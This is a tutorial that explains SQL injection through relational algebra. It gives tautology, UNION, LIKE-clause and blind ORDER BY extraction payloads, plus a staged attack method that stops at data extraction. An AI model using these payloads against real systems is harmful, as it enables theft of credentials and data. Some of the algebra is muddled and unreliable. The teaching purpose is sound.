# Relational Algebra in SQL: From Foundation to Exploitation

## Understanding the Mathematical Backbone of SQL and Its Vulnerabilities

---

# Part 1: Foundations of Relational Algebra

## What is Relational Algebra?

### The Mathematical Foundation



### Basic Set Theory Concepts



## Core Relational Algebra Operations

### 1. Selection (σ) - Filtering Rows

**Mathematical Definition:**
```
σ_predicate(Relation) = {t | t ∈ Relation ∧ predicate(t)}
```

```sql
-- Relational Algebra: σ_{salary > 50000}(Employees)
-- SQL Equivalent:
SELECT * 
FROM Employees 
WHERE salary > 50000;

-- Algebraic breakdown:
-- Input relation: Employees (all rows)
-- Predicate: salary > 50000
-- Output: Subset of rows satisfying condition
```

**Visual Representation:**



### 2. Projection (π) - Selecting Columns

**Mathematical Definition:**
```
π_{attribute_list}(Relation) = {t[attribute_list] | t ∈ Relation}
```

```sql
-- Relational Algebra: π_{name, salary}(Employees)
-- SQL Equivalent:
SELECT name, salary 
FROM Employees;

-- Multiple projections can be combined
SELECT DISTINCT department 
FROM Employees;
-- π_{department}(Employees) with duplicate elimination
```

### 3. Union (∪) - Combining Relations

**Mathematical Definition:**
```
R ∪ S = {t | t ∈ R ∨ t ∈ S}
```

```sql
-- Relational Algebra: Employees_US ∪ Employees_EU
-- SQL Equivalent:
SELECT * FROM Employees_US
UNION
SELECT * FROM Employees_EU;

-- Preserves duplicates:
SELECT * FROM Employees_US
UNION ALL
SELECT * FROM Employees_EU;
```

### 4. Set Difference (-)

```sql
-- Relational Algebra: Employees - Managers
-- SQL Equivalent:
SELECT * FROM Employees
EXCEPT
SELECT * FROM Managers;

-- Or using NOT EXISTS (more common):
SELECT e.* 
FROM Employees e
WHERE NOT EXISTS (
    SELECT 1 FROM Managers m 
    WHERE m.employee_id = e.id
);
```

### 5. Cartesian Product (×)

**Mathematical Definition:**
```
R × S = {(t_r, t_s) | t_r ∈ R ∧ t_s ∈ S}
```

```sql
-- Relational Algebra: Employees × Departments
-- SQL Equivalent:
SELECT * 
FROM Employees 
CROSS JOIN Departments;

-- Each row of Employees paired with each row of Departments
```

### 6. Join Operations (⋈)



```sql
-- Theta Join (R ⋈_{R.dept_id = S.id} S)
SELECT *
FROM Employees R
JOIN Departments S ON R.dept_id = S.id;

-- Natural Join
SELECT * 
FROM Employees 
NATURAL JOIN Departments;

-- Left Outer Join (⟕)
SELECT *
FROM Employees e
LEFT JOIN Departments d ON e.dept_id = d.id;
```

## Relational Algebra to SQL Mapping



---

# Part 2: Practical Application in SQL

## Building Complex Queries from Algebra

### Query Decomposition Example

```sql
-- Business Question: "Find high-paid employees in the Sales department"

-- Step 1: Break down using relational algebra
-- π_{name, salary}(σ_{salary > 70000 ∧ dept = 'Sales'}(Employees))

-- Step 1a: Selection first
-- σ_{salary > 70000 ∧ dept = 'Sales'}(Employees)

-- Step 1b: Then projection
-- π_{name, salary}(result_from_selection)

-- Step 2: SQL Implementation
SELECT name, salary          -- π (projection)
FROM Employees               -- Relation
WHERE salary > 70000         -- σ (selection condition 1)
  AND department = 'Sales';  -- σ (selection condition 2)

-- More complex: Join with projection and selection
-- π_{e.name, d.name}(σ_{e.salary > 70000}(Employees e ⋈_{e.dept_id=d.id} Departments d))

SELECT e.name, d.department_name
FROM Employees e
JOIN Departments d ON e.dept_id = d.id  -- ⋈ (join)
WHERE e.salary > 70000;                  -- σ (selection)
```

### Algebraic Expression Trees



```sql
-- Tree evaluation (bottom-up):
-- 1. Join Employees and Departments on dept_id
-- 2. Filter where salary > 70000
-- 3. Project only name and salary columns

SELECT e.name, e.salary
FROM Employees e
JOIN Departments d ON e.dept_id = d.id
WHERE e.salary > 70000;
```

## Relational Completeness



---

# Part 3: The Algebra of SQL Injection

## Understanding the Vulnerability Gap

### The Fundamental Problem



### Algebraic Representation of SQL Injection

**Safe Query Algebra:**
```
Query = π_{columns}(σ_{fixed_predicate}(Relation))
```

**Vulnerable Query Algebra:**
```
Query = π_{columns}(σ_{user_controlled_predicate}(Relation))
```

**Exploited Query Algebra:**
```
Attack = π_{columns}(σ_{TRUE}(Relation)) 
         ∪ 
         π_{columns}(σ_{malicious}(System_Tables))
```

## SQL Injection as Algebraic Manipulation

### Type 1: Predicate Manipulation (WHERE clause injection)

```sql
-- Original intended algebra:
-- σ_{username = 'john' ∧ password = 'secret'}(Users)

-- SQL:
SELECT * FROM Users 
WHERE username = 'john' AND password = 'secret';

-- Attacker input for username: john' OR '1'='1

-- Modified algebra becomes:
-- σ_{username = 'john' ∨ '1'='1' ∧ password = 'secret'}(Users)
-- Which simplifies to:
-- σ_{username = 'john' ∨ TRUE}(Users)
-- Then: σ_{TRUE}(Users)

-- SQL becomes:
SELECT * FROM Users 
WHERE username = 'john' OR '1'='1' AND password = 'secret';
-- Equivalent to:
SELECT * FROM Users WHERE username = 'john' OR TRUE;
-- Returns ALL users!
```

**Algebraic Transformation Visualization:**



### Type 2: Union Injection (Adding Relations)

```sql
-- Original algebra:
-- π_{name, email}(σ_{id = 5}(Users))

-- SQL:
SELECT name, email FROM Users WHERE id = 5;

-- Attacker injects: 5 UNION SELECT username, password FROM Users

-- Modified algebra:
-- π_{name, email}(σ_{id = 5}(Users)) 
-- ∪ 
-- π_{username, password}(Users)

-- The attacker added a NEW relation to the query!
```

**Union Injection Algebraic Model:**



### Type 3: Comment-Based Truncation

```sql
-- Original: σ_{id = user_input}(Products)

-- Input: 1; SELECT * FROM Users --

-- If multi-query enabled:
-- Query 1: σ_{id = 1}(Products)
-- Query 2: π_{*}(Users) ← New relation introduced!

-- With comment injection:
-- Input: 1' OR '1'='1' --
-- σ_{id = 1 ∨ '1'='1'}(Products) ← Predicate manipulation
-- The -- comments out remaining algebra!
```

## The Loopholes in Detail

### Loophole 1: String Concatenation Breaks Algebraic Closure

```sql
-- Algebraic principle of closure:
-- Operations on relations should produce relations
-- With safe, fixed predicates

-- Violation through string building:
$query = "SELECT * FROM Users WHERE username = '" + $input + "'";

-- Algebra should be:
-- Q = π_{*}(σ_{username = $input}(Users))
-- Where $input is a VALUE, not an expression

-- But string concatenation allows $input to be:
-- ' OR '1'='1  →  becomes a PREDICATE, not a value!

-- Result: The algebra is no longer closed
-- Predicate space is now user-controllable
```

**Algebraic Closure Violation Diagram:**



### Loophole 2: The Identity Predicate Attack

```sql
-- In Boolean algebra:
-- TRUE ∧ P ≡ P
-- FALSE ∧ P ≡ FALSE
-- TRUE ∨ P ≡ TRUE  ← THIS IS THE ATTACK!
-- FALSE ∨ P ≡ P

-- Attacker exploits: TRUE ∨ P ≡ TRUE
-- By injecting: ' OR '1'='1

-- Original: σ_{username = 'john'}(Users)  
-- Injected: σ_{username = '' OR '1'='1'}(Users)
-- Simplifies: σ_{TRUE}(Users)
-- Result: Identity predicate returns all tuples!

-- Mathematical proof of the injection:
-- Let P = (username = '$input')
-- If $input = ' OR '1'='1
-- Then P = (username = '' OR '1'='1')
-- By truth table:
--   username = '' → FALSE
--   '1'='1' → TRUE
--   FALSE OR TRUE → TRUE
-- Therefore: P ≡ TRUE
```

### Loophole 3: Predicate Scope Injection

```sql
-- Consider nested selectors:
-- Original: σ_{dept = 'IT' ∧ salary > (σ_{AVG(salary)}(Employees))}(Employees)

-- If department is injectable:
-- Input: IT' OR '1'='1

-- Algebra becomes:
-- σ_{dept = 'IT' ∨ TRUE ∧ salary > avg}(Employees)
-- Which is:
-- σ_{TRUE ∧ salary > avg}(Employees)  
-- ≠ σ_{salary > avg}(Employees) [because AND takes precedence]
-- Actually becomes:
-- σ_{dept = 'IT' ∨ (TRUE ∧ salary > avg)}(Employees)
-- If anyone in IT, returns all employees!
```

### Loophole 4: Join Condition Poisoning

```sql
-- Original join algebra:
-- R ⋈_{R.dept_id = S.id} S
-- With filter: σ_{S.name = user_input}(R ⋈ S)

-- If user_input = 'HR' OR '1'='1'
-- σ_{S.name = 'HR' ∨ TRUE}(R ⋈ S)
-- σ_{TRUE}(R ⋈ S) = R ⋈ S (Cartesian product!)

-- This leaks all joined data
SELECT * 
FROM Employees e
JOIN Departments d ON e.dept_id = d.id
WHERE d.name = 'HR' OR '1'='1';
-- Returns all employees with department info!
```

---

# Part 4: Advanced Algebraic Vulnerability Patterns

## Pattern Recognition in Vulnerable Queries

### Pattern 1: Direct Predicate Injection



```sql
-- Vulnerable pattern: Direct concatenation
$query = "SELECT * FROM users WHERE id = " + $_GET['id'];

-- Safe algebraic form where id is a VALUE:
-- σ_{id = 5}(users)

-- But with injection id = "5 OR 1=1":
-- σ_{id = 5 ∨ 1=1}(users) = σ_{TRUE}(users)
```

### Pattern 2: LIKE Clause Predicate Injection

```sql
-- The LIKE operator is actually a weak predicate
-- LIKE '%pattern%' ≡ EXISTS (pattern in string)

-- Vulnerable search:
-- σ_{name LIKE '%user_input%'}(Products)

-- Injection: %' OR 1=1 OR '%
-- σ_{name LIKE '%%' OR 1=1 OR '%%'}(Products)

-- The %% in LIKE matches everything
-- OR 1=1 makes it TRUE
-- Result: σ_{TRUE}(Products)

-- Search query example:
SELECT * FROM Products 
WHERE name LIKE '%' OR 1=1 OR '%';
-- Returns ALL products!
```

### Pattern 3: ORDER BY/GROUP BY Injection

```sql
-- ORDER BY operates post-selection but pre-projection
-- Algebra: τ_{attribute}(π_{cols}(σ_{pred}(R)))

-- If ORDER BY is injectable:
-- ORDER BY (CASE WHEN (condition) THEN column1 ELSE column2 END)

-- This creates an ORACLE for blind injection:
-- If condition TRUE → different order
-- If condition FALSE → different order

-- Example: Extract password character by character
SELECT * FROM Users 
ORDER BY (
    CASE WHEN (
        SELECT SUBSTRING(password, 1, 1) 
        FROM Users 
        WHERE username = 'admin'
    ) = 'a' 
    THEN id 
    ELSE username 
    END
);

-- Algebraic abuse: τ becomes a data extractor!
```

### Pattern 4: HAVING Clause Exploitation

```sql
-- HAVING filters after GROUP BY
-- Algebra: γ_{group, agg}(R) with HAVING clause

-- Original:
SELECT department, COUNT(*) 
FROM Employees 
GROUP BY department 
HAVING COUNT(*) > 5;

-- Injected HAVING:
SELECT department, COUNT(*) 
FROM Employees 
GROUP BY department 
HAVING COUNT(*) > 0 
   OR (SELECT COUNT(*) FROM Users) > 0;

-- The HAVING clause now includes a subquery
-- that can extract data through timing or errors
```

---

# Part 5: Exploiting the Algebraic Loopholes

## Building Complex Attacks from Simple Algebra

### Attack Construction Methodology



### The Complete Attack Algebra

```sql
-- Stage 1: Information Gathering
-- Original: σ_{id = $input}(Products)

-- Probe: id = 1' ORDER BY 1 --
-- Algebra: Check projection width
SELECT * FROM Products WHERE id = 1 ORDER BY 1;

-- Stage 2: Column Count Discovery
-- id = 1' UNION SELECT NULL --
-- Algebra: Test union compatibility
SELECT * FROM Products WHERE id = 1 
UNION SELECT NULL;

-- Stage 3: Data Extraction
